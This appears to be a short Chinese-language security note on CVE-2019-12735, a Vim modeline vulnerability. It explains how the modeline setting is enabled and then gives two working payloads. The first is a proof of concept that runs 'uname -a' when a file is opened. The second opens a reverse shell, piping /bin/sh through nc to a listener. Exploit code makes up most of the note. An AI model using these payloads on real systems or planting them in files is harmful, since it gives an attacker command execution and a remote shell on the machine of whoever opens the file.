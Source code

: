 ```yaml
---
title: "（CVE-2019-12735）vim modeline"
id: zhfly3492
---
```


# （CVE-2019-12735）vim modeline

该漏洞存在于编辑器的 modeline功能，部分 Linux 发行版默认启用了该功能，macOS 是没有默认启用。 当vim打开一个包含了vim modeline注释行的文件时，会自动读取这一行的参数配置并调整自己的设置到这个配置。vim默认关闭modeline。 开启：

```
vim ~/.vimrc
//文件内容为
set modeline 
```

```
poc:
:!uname -a||" vi:fen:fdm=expr:fde=assert_fails("source\!\ \%"):fdl=0:fdt=" 
```

![image](../img/dc8dad288e07d3184d089aadf2f403ae.png)

反弹shell：

```
:!rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 127.0.0.1  9999 >/tmp/f||" vi:fen:fdm=expr:fde=assert_fails("source\!\ \%"):fdl=0:fdt=" 
```

![image](../img/73bd333857e534c951328903856de2e5.png)